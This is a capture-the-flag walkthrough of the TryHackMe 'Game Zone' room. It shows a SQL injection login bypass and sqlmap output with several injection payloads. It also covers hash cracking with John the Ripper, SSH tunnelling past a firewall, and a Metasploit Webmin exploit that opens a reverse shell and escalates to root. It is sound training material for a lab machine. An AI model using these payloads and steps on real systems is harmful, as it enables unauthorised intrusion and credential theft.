


# Game Zone
**Date:** January 25th 2022

**Author:** j.info

[**Link**](https://tryhackme.com/room/gamezone) to the Game Zone CTF on TryHackMe.

This is an easy rated CTF.

<br>

## Task 1 - Deploy the vulnerable machine

### Objectives
- Deploy the machine and access it's web server.
- What is the name of the large cartoon avatar holding a sniper on the forum?

<br>

#### Objective 1

No need to explain the first objective, just start it up and wait for it to be ready.

#### Objective 2

The second objective requires going to the website. Pulling that up you get the following page:


Not knowing off hand what the name of the character is I save the image to my computer and then upload it to [**TinEye**](https://tineye.com/) for a reverse image search. This provides the answer pretty quickly.

<br>

## Task 2 - Obtain access via SQLi

### Objectives
- Read the first two pieces of information and click completed when done with them.
- When you've logged in what page do you get redirected to?

<br>

#### Objective 1 and 2

The first two are read and understand objectives so look over the information that explains how you can use SQL injection to bypass the login mechanism.

#### Objective 3

```
When you've logged in what page do you get redirected to?
```
Reading through the information it asks you to enter **\` or 1=1 -- -** into the login field and leave the password blank:


After entering that and clicking login we've bypassed the login process:


<br>

## Task 3 - Using SQLMap

### Objectives
- In the users table, what is the hashed password?
- What was the username associated with the hashed password?
- What was the other table name?

<br>

#### Objective 1, 2, and 3

Follow the steps outlined in this task to intercept the request in Burp Suite and save the results to a text file for use with SQLMap.



You can right click the request itself in Burp Suite, select **Save item** and then choose the file name and where to save it. You should see this if successful:


Now that we have the request file in place let's use **SQLMap** to find vulnerabilities in the websites search form. I run `sqlmap -r testsearch.txt --dbms=mysql --dump`:
```
┌──(kali㉿kali)-[~/work]
└─$ sqlmap -r testsearch.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:09:03 /2022-01-25/

[10:09:03] [INFO] parsing HTTP request from 'testsearch.txt'
[10:09:03] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-3059' OR 5946=5946#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=testsearch' AND GTID_SUBSET(CONCAT(0x71716a6b71,(SELECT (ELT(4216=4216,1))),0x71626a7a71),4216)-- Pcyo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=testsearch' AND (SELECT 3497 FROM (SELECT(SLEEP(5)))ymzA)-- bKkw

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=testsearch' UNION ALL SELECT NULL,NULL,CONCAT(0x71716a6b71,0x48746c527267656e6b4d665150467145646e56765555425769614679776e6a6747635a6b494b6d43,0x71626a7a71)#
---
[10:09:03] [INFO] testing MySQL
[10:09:03] [INFO] confirming MySQL
[10:09:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[10:09:03] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:09:03] [INFO] fetching current database
[10:09:03] [INFO] fetching tables for database: 'db'
[10:09:03] [INFO] fetching columns for table 'post' in database 'db'
[10:09:03] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: <REDACTED>
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[10:09:04] [INFO] table 'db.post' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.131.100/dump/db/post.csv'
[10:09:04] [INFO] fetching columns for table 'users' in database 'db'
[10:09:04] [INFO] fetching entries for table 'users' in database 'db'
[10:09:04] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[10:10:20] [INFO] writing hashes to a temporary file '/tmp/sqlmapvjwty2jg29121/sqlmaphashes-s0kx4152.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| <REDACTED>                                                       |<REDACTED>|
+------------------------------------------------------------------+----------+

[10:10:29] [INFO] table 'db.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.131.100/dump/db/users.csv'
[10:10:29] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.131.100'

[*] ending @ 10:10:29 /2022-01-25/
```

When it asks you the following make sure to select yes since we'll be cracking the hash in the next task:
```
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
```

And answer no to cracking them now:
```
do you want to crack them via a dictionary-based attack? [Y/n/q] n
```

You can see it saved the hash to a file in **/tmp/sqlmapvjwty2jg29121/** which I went ahead and renamed to hash.txt and moved to my working directory for use in the next task.

You can answer all 3 questions for this task based on the output above.

<br>

## Task 4 - Cracking a password with JohnTheRipper

### Objectives
- Read the information
- What is the de-hashed password?
- Now thou have the password and username. Try SSH'ing onto the machine.

<br>

#### Objective 1 and 2

After reading the information you should have an understanding of how to use **JohnTheRipper** to crack the password hash we found in the previous step.

I run the command it asks us to `john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256` and within a second it has already been cracked:
```
┌──(kali㉿kali)-[~/work]
└─$ john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>    (<REDACTED>)     
1g 0:00:00:00 DONE (2022-01-25 10:31) 7.692g/s 22685Kp/s 22685Kc/s 22685KC/s vimivi..vainlove
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

#### Objective 3
```
Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
```

I open up an **ssh** session to the machine with the following command: `ssh agent47@10.10.131.100` and login:
```
┌──(kali㉿kali)-[~/work]
└─$ ssh agent47@10.10.131.100     
The authenticity of host '10.10.131.100 (10.10.131.100)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.131.100' (ED25519) to the list of known hosts.
agent47@10.10.131.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
```

Let's see if the user flag is in agent47's home directory:
```
agent47@gamezone:~$ pwd
/home/agent47
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
<REDACTED>
```

With that we've completed task 4. Let's move on to task 5.

<br>

## Task 5 - Exposing services with reverse SSH tunnels

### Objectives
- How many TCP sockets are running?
- What is the name of the exposted CMS?
- What is the CMS version?

<br>

#### Objective 1
```
How many TCP sockets are running?
```

Reading the information in this task section asks you to run the command `ss -tulpn` to answer that question:
```
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q                    Local Address:Port                                   Peer Address:Port              
udp    UNCONN     0      0                                     *:10000                                             *:*                  
udp    UNCONN     0      0                                     *:68                                                *:*                  
tcp    LISTEN     0      128                                   *:10000                                             *:*                  
tcp    LISTEN     0      128                                   *:22                                                *:*                  
tcp    LISTEN     0      80                            127.0.0.1:3306                                              *:*                  
tcp    LISTEN     0      128                                  :::80                                               :::*                  
tcp    LISTEN     0      128                                  :::22                                               :::*
```

<br>

#### Objective 2
```
What is the name of the exposed CMS?
```

Reading through the provided information asks us to set up a SSH tunnel to forward traffic from port 10000 on this machine to port 10000 on our machine. This will avoid the firewall rules blocking incoming connections to this port and allow us to access the CMS system.

I run the command they ask us to use on my local system to accomplish that `ssh -L 10000:localhost:10000 agent47@10.10.131.100`
```
┌──(kali㉿kali)-[~/work]
└─$ ssh -L 10000:localhost:10000 agent47@10.10.131.100
agent47@10.10.131.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Tue Jan 25 09:35:00 2022 from <MY IP>
```

And then with a web browser go to address **localhost:10000** to access the CMS system we can now get to:


#### Objective 3
```
What is the CMS version?
```

We're presented with a login page so I try and login with the only user we have at the moment and it works:


And we're able to answer the last question for this task and move on to task 6.

<br>

## Task 6 - Privilege Escalation with Metasploit

### Objectives
- What is the root flag?

<br>

#### Objective 1

We're asked to fire up **metasploit** and search for a vulnerability that will work against this CMS. I start it with `msfconsole` and run a `search 1.580`:
```
──(kali㉿kali)-[~]
└─$ msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.1.23-dev                          ]
+ -- --=[ 2189 exploits - 1161 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View all productivity tips with the 
tips command

[*] Starting persistent handler(s)...
msf6 > search 1.580

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   

Interact with a module by name or index. For example info 1, use 1 or use auxiliary/admin/webmin/edit_html_fileaccess
```

So we have a couple options available to us. I'll start out with 0 and see how it goes. I run `use 0` and then `show payloads` to see what's available.
```
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   8   payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   payload/cmd/unix/reverse_python                              normal  No     Unix Command Shell, Reverse TCP (via Python)
   10  payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   11  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   12  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

I decide to go with the reverse python shell, #9, and run `set payload 9`.

Let's look at what options are required to run this exploit by running the `options` command:
```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
```

There are quite a few options to set so I run the following commands:
- `set PASSWORD <agent47 password>`
- `set USERNAME agent47`
- `set RHOSTS localhost`
- `set SSL false`
- `set LHOST <MY IP>`

Running the `options` command again should show the following for you now:
```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  <REDACTED>       yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    localhost        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     10000            yes       The target port (TCP)
   SSL       false            yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <MY IP>          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580
```

Looks good, let's run the exploit by typing `exploit`:
```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP handler on <MY IP>:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP handler on <MY IP>:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Command shell session 1 opened (<MY IP>:4444 -> 10.10.131.100:39566 ) at 2022-01-25 11:33:13 -0500
[*] Session 1 created in the background.
```

Looks like it worked and created a shell in the background under **session 1**. Let's look at this by running the `sessions` command:
```
msf6 post(multi/manage/shell_to_meterpreter) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               <MY IP>:4444 -> 10.10.131.100:39566  (127.0.0.1)
```

Ok good to go. Since it's already in the background let's upgrade it to a full **meterpreter** shell using the following command: `use post/multi/manage/shell_to_meterpreter` and then running `options` to see what we need to input:
```
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on
```

So we just need to set our LHOST IP and SESSION number:
- `set LHOST <MY IP>`
- `set SESSION 1`

And then use the `run` command:
```
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on <MY IP>:4433 
[*] Sending stage (984904 bytes) to 10.10.131.100
[*] Meterpreter session 2 opened (<MY IP>:4433 -> 10.10.131.100:51308 ) at 2022-01-25 11:34:59 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Stopping exploit/multi/handler
```

Then let's interact with the newly created **session 2** by typing `sessions -i 2` and then `getuid` and `sysinfo` to validate we're root on the target system:
```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.10.131.100
OS           : Ubuntu 16.04 (Linux 4.4.0-159-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

The root flag is likely hidden in the usual /root directory so let's go check it out by running `cd /root` and `ls`:
```
meterpreter > cd /root
meterpreter > ls
Listing: /root
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
020666/rw-rw-rw-  0     cha   2022-01-25 08:33:38 -0500  .bash_history
100644/rw-r--r--  3106  fil   2015-10-22 13:15:21 -0400  .bashrc
040700/rwx------  4096  dir   2019-08-16 18:48:47 -0400  .cache
100644/rw-r--r--  148   fil   2015-08-17 11:30:33 -0400  .profile
100644/rw-r--r--  33    fil   2019-08-16 15:54:44 -0400  root.txt
```

And there we have it, our final flag to complete this CTF! `cat root.txt`:
```
meterpreter > cat root.txt
<REDACTED>
```

<br>



<br>

## Conclusion

We covered a lot in this CTF:
- SQL injection to bypass a login page
- Capturing a request in Burp Suite and saving it's output to a text file
- Running `sqlmap` against that text file to ultimately get a username and password hash
- Cracking that password hash with **JohnTheRipper**
- Connecting to the target system with the obtained credentials via `ssh`
- Bypassing firewall rules by tunneling traffic directly to our system via `ssh` so we could access the hidden CMS sytem
- And finally using **metasploit** to obtain root access

<br>

Many thanks to **TryHackMe** for creating and hosting this CTF.

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
